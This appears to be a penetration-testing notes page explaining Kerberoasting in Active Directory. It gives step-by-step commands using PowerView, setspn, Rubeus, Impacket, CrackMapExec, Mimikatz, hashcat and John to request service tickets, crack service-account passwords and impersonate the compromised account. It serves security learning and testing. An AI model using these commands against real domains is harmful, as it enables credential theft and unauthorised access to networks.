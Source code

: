 # Kerberoasting

**Kerberosting** is a post-exploitation attack technique that attempts to **obtain a password hash** of an Acrive Directory account that has a **Service Principal Name (SPN)** enabled.\
In such an attack, an authenticated domain user requests a Kerberos ticket for an SPN. The retrieved Kerberos ticket is encrypted with the hash of the service account password affiliated with the SPN. The adversary then works offline to **crack the password hash**, often using brute force technique.\
Once the plaintext credentials of the service account are obtained, the adversary **can impersonate the account owner** and inherit access to any systems, assets or networks granted to the compromised account.

{% hint style="info" %}
**Kerberoasting** is a method of obtaining service account credentials by requesting service tickets from a domain controller and cracking them offline. It allows the attacker to gain access to network resources by using the service account's password hash. **Pass-the-Ticket**, on the other hand, is a technique where an attacker steals a Kerberos ticket-granting ticket (TGT) from a user's session and uses it to impersonate the user to gain access to network resources.
{% endhint %}



#### Methodology:

* **Identify accounts** that have a Service Principal Name (SPN) enabled
* **Request a TGS ticket** for the specified SPN using Kerberos
* **Crack** the password from the TGS ticket.

## Identify Kerberostable account

First we have to detect all user in the domain that has "**Service Principal Name (SPN)**" option **enabled**.

### PowerView (Windows)

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

```powershell
# import the module
powershell -ep bypass
. .\PowerView.ps1
```

<pre class="language-powershell"><code class="lang-powershell"><strong>Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
</strong>Get-NetUser -SPN | select serviceprincipalname
</code></pre>

```powershell
Invoke-Kerberoast
Get-DomainObject -Identity $ACCOUNT_NAME 
```

### setspn.exe (Windows)

**setspn.exe** is a built-in binary. Focus on user accounts.

```powershell
setspn.exe -Q */*
setspn -T $CD_NAME -Q */*
```

<figure><img src="../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>



### kerberost tool (Linux)

{% embed url="https://github.com/skelsec/kerberoast" %}

Install the package with pip:

```bash
pip3 install kerberoast
```

Run this commands:

{% code overflow="wrap" %}
```bash
kerberoast ldap spn 'ldap+ntlm-password://$DOMAIN.local\$USER:$PASS@$DC_IP' -o kerberoastable
```
{% endcode %}



## Get TGS tickets

Once we have a list with all kerberostable account, we can try to get the TGS of the accounts.

### Rubeus.exe (Windows)

{% embed url="https://github.com/GhostPack/Rubeus" %}

Transfer the executable into a WIndows target and run it:

```powershell
.\Rubeus.exe kerberoast /stats
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:
.\Rubeus.exe kerberoast /simple /outfile:hashes.kerberoast
```

### Msfconsole (Linux)

```bash
msf> use auxiliary/gather/get_user_spns
```

### GetUserSPNs.py (Linux)

The Impacket script **GetUserSPNs (Python)** can perform all the necessary steps to request a ST for a service given its SPN and valid domain credentials.

{% embed url="https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py" %}

Copy the script and run this commands:

{% code overflow="wrap" %}
```bash
GetUserSPNs.py -request -dc-ip $DC_IP $DOMAIN.local/$USER -outputfile hashes.kerberoast

# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $DC_IP
'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip
$DC_IP 'DOMAIN/USER'
```
{% endcode %}

### CrackMapExec

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting
kerberoastables.txt --kdcHost $DC_IP
```



### setspn (Windows)

{% code overflow="wrap" %}
```powershell
# Get TGSs for all kerberostable accounts
setspn.exe -T $DOMAIN.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() } 

# List kerberos tickets in memory
klist
```
{% endcode %}

### PowerView

```powershell
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "$SPN" 
```

Once the object has created we can use tool like mimikatz to extract the ticket.

Copy the mimikatz invoke into a file and transfer it into a target machine.

{% embed url="https://github.com/PowershellMafia/Powersploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1" %}

```powershell
# Import the module in powershell
. .\Invoke-Mimikatz.ps1

# extract the tgs tickets from memory
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

This command create a file named with the TGS ticket to crack

<figure><img src="../../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

## Crack the TGS tickets

### tgsrepcrack (.kirbi crack)

{% embed url="https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py" %}

Copy the script above and run it:

```bash
python tgsrepcrack.py /PATH/TO/rockyou.txt $TGS_TICKET.kirbi
```

### .txt output crack

```bash
hashcat -m 13100 -o creds.txt -a 0 ./$RUBEUS_OUTPUT.txt ./rockyou.txt

john --format=krb5tgs --wordlist=.../rockyou.txt $RUBEUS_OUTPUT.txt
```



## Use Cracked Creds

Once we have obtained the credentials from tgs tickets, we can impesonate the hacked account.

```powershell
# spawn a powershell as hacked account
runas /netonly /User:$USER powershell.exe
```







#### Resources:

{% embed url="https://www.picussecurity.com/resource/blog/kerberoasting-attack-explained-mitre-attack-t1558.003" %}









